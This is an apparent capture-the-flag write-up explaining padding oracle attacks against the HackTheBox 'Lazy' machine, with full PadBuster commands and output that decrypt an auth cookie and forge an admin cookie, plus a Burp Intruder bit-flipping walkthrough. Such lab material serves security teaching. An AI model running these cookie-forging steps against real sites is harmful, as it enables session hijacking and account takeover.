

# Padding Oracle Attack

## Padding Oracle Attack

In cryptography, a padding oracle attack is an attack that uses padding validation of a cryptographic message to decrypt the ciphertext.

## Example of a Padding Oracle Attack with HTB Lazy

### Cookie Hijacking via PadBuster

If we have the option to register a new user we should try it:


After logging in as that new user, we will receive a cookie:


We can use DevTools Storage Tab to look at the cookie information:


```text
❯ sudo apt install padbuster
```


```text
❯ padbuster http://10.10.10.18/login.php 3ffnBqmiPXfkt0Yq7UjIuTVIIFZlWWy3 8 -cookie "auth=3ffnBqmiPXfkt0Yq7UjIuTVIIFZlWWy3" -encoding 0
```

This is the following output of a vulnerable application:

```text
❯ padbuster http://10.10.10.18/login.php 3ffnBqmiPXfkt0Yq7UjIuTVIIFZlWWy3 8 -cookie "auth=3ffnBqmiPXfkt0Yq7UjIuTVIIFZlWWy3" -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1486

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#    Freq    Status    Length    Location
-------------------------------------------------------
1    1    200    1564    N/A
2 **    255    200    15    N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (242/256) [Byte 8]
[+] Success: (170/256) [Byte 7]
[+] Success: (42/256) [Byte 6]
[+] Success: (112/256) [Byte 5]
[+] Success: (143/256) [Byte 4]
[+] Success: (124/256) [Byte 3]
[+] Success: (125/256) [Byte 2]
[+] Success: (96/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): e4b7462aed48c8b9
[+] Intermediate Bytes (HEX): a884827494d5540f
[+] Plain Text: user=wix

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (67/256) [Byte 8]
[+] Success: (49/256) [Byte 7]
[+] Success: (178/256) [Byte 6]
[+] Success: (20/256) [Byte 5]
[+] Success: (214/256) [Byte 4]
[+] Success: (221/256) [Byte 3]
[+] Success: (39/256) [Byte 2]
[+] Success: (126/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): 3548205665596cb7
[+] Intermediate Bytes (HEX): 8ade252fe84dcdbc
[+] Plain Text: nic

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=wixnic

[+] Decrypted value (HEX): 757365723D7769786E69630505050505

[+] Decrypted value (Base64): dXNlcj13aXhuaWMFBQUFBQ==

-------------------------------------------------------
```

Knowing that the application is vulnerable, we can generate a valid cookie of a valid user, in this case `admin`, we can do so with `-plaintext "user=valid_username"`, an example below:

```text
❯ padbuster http://10.10.10.18/login.php 3ffnBqmiPXfkt0Yq7UjIuTVIIFZlWWy3 8 -cookie "auth=3ffnBqmiPXfkt0Yq7UjIuTVIIFZlWWy3" -encoding 0 -plaintext "user=admin"

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1486

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#    Freq    Status    Length    Location
-------------------------------------------------------
1    1    200    1564    N/A
2 **    255    200    15    N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Login as a valid user and change its cookie with the one you got:


New generated cookie:



Save and Reload the page:


We're now logged in as admin.

### Neat Trick

We can create an instance of an existing user with `=` and login as that valid user.


This is just an alternative way to login.

### BitFlipper Attack

Register a username similar to an existing username:


Login as that new registered user. Then in BurpSuite, send the request to the **Intruder** tool and add a position in the cookie header:


Disable Payload Encoding to avoid problems:


Set the **Payload type** to **Bit flipper** and choose **Format of original data** to **Literal Value**:


Next, we may want to extract a particular text that lets us easily identify the username, in this case `bdmin`. We can use **Grep - Extract** from the **Options** tab to extract a particular text:


The output looks like this, in my case:


After that we can start the attack:


We can see the following output:


Eventually, the admin user is found:


We can then grab the cookie and login:


That's it for the BitFlipper Attack.

